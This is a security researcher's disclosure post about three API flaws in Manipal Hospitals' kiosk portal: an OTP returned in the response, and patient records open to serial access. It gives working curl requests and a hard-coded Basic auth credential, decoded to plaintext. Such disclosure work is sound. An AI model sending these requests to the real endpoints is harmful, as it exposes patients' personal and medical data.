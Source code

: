 ```yaml
---
title: Manipal Hospitals pvt ltd vulnerability 2024
date:
  created: 2025-08-14
  updated: 2025-08-14
---
```


The Manipal hospital pvt ltd has a mandatory registration process on its kiosk <https://kiosk.manipalhospitals.com>
for OPD consultations.
The portal collects a lot of information within minutes but the same personal data deletion takes 3-4 months.

The portal had numerous vulnerabilities that allowed to get the user's personal data in a serial access
and "protected" just by a static `Authorization` header exposed in the front-end code.

Summary of the vulnerabilities:

| Sr | API  | Date reported | Date fixed | Days taken | CERT-in reference number |
|----|------|---------------|------------|------------|--------------------------|
| 1  | [KioskOtpVerification](#1-kioskotpverification) | 27 December 2024 | Never reverted | more than 60 days | 91742724 |
| 2  | [PatientVisitHistory](#2-patientvisithistory) | 27 December 2024 | Never reverted | more than 60 days | 91742724 |
| 3  | [PatDetailsByMobileNo](#3-patdetailsbymobileno) | 27 December 2024 | Never reverted | more than 60 days | 91742724 |

Root cause in [OWASP](https://cheatsheetseries.owasp.org/index.html) terms:

- A01 2021 Broken Access Control: CWE-35 Path Traversal, CWE-284 Improper Access Control, CWE-285 Improper Authorization
- A02 2021 Cryptographic Failures: CWE-321 Use of Hard-coded Cryptographic Key
- A04 2021 Insecure Design: Insecure Direct Object Reference
- A07 2021 Identification and Authentication Failures: CWE-287 Improper Authentication, CWE-613 Insufficient Session Expiration

<!-- more -->

### 1. KioskOtpVerification

This API is used to send an OTP to the given phone number. This API defeated
the point of OTP verification by sending back the OTP in the API response.

```bash title="sample_script.sh" linenums="1"
timest=$(date '+%F_%T')
curl -v 'https://kiosk.manipalhospitals.com/ManipalKioskApi/api/OTP/KioskOtpVerification' -X POST -H \
'Authorization: Basic RW1wdWxzZURldjprXzNHNVtrKjF9NkBpMic=' \
--data-raw '{"mobileNumber":"91$$$$$$$$$$","hospitalCode":"MHJ"}' \
-o otp_exposed_$timest.json
```

???+ note "Sample Response"
    ```json linenums="1" hl_lines="3"
    ---8<--- "docs/vuln/posts/content_manipal/manipal_vuln_1.json"
    ```

### 2. PatientVisitHistory

This endpoint allowed serial access (increasing UHID) to a patient's visit history by relying on
a static `Authorization` header.

The header can be decoded to the following

```bash
echo RW1wdWxzZUhJUzonKTNRYz00MEk7PDdIdFdF | base64 -d
EmpulseHIS:')3Qc=40I;<7HtWE
```

```bash title="sample_script.sh" linenums="1"
timest=$(date '+%F_%T')
curl 'https://kiosk.manipalhospitals.com/ManipalDataSync/PatientVisitHistory' -X POST -H \
'Authorization: Basic RW1wdWxzZUhJUzonKTNRYz00MEk7PDdIdFdF' \
--data-raw '{"UHID":"MHXXXXXXXX7^01/01/2020^27/12/2024","hospitalCode":"MHB"}'  \
-o pat_vis_his_$timest.json
```

<details>
<summary>Sample Response</summary>
```json linenums="1"
---8<--- "docs/vuln/posts/content_manipal/manipal_vuln_2.json"
```
</details>

### 3. PatDetailsByMobileNo

This API accepted a phone number and provided the patient details like name, dob, email, gender etc.

The `Authorization` header is the same as in the above vulnerability.

```bash title="sample_script.sh" linenums="1"
timest=$(date '+%F_%T')
curl -v 'https://kiosk.manipalhospitals.com/ManipalDataSync/PatDetailsByMobileNo' -X POST -H \
'Authorization: Basic RW1wdWxzZUhJUzonKTNRYz00MEk7PDdIdFdF' \
 --data-raw '{"mobileno":"$$$$$$$$$$","locationCode":"MHJ"}' \
-o get_pat_by_mob_$timest.json
```

???+ note "Sample Response"
    ```json linenums="1"
    {
        "ErrorMessage": "null",
        "Message": "SUCCESS",
        "Status": "SUCCESS",
        "PatDetailResp": [
            {
            "Status": "Success",
            "Message": "Success",
            "HospNo": "MH$$$$$$$$7",
            "PatientName": "MR $$$$$$$$ ",
            "DOB": "$$/$$/$$$$",
            "Age": "$$ Yrs",
            "Sex": "$$$$$$$$",
            "MobileNo": "$$$$$$$$$$",
            "Email": "$$$$$$$$@$$$$$.$$$"
            }
        ]
    }
    ```

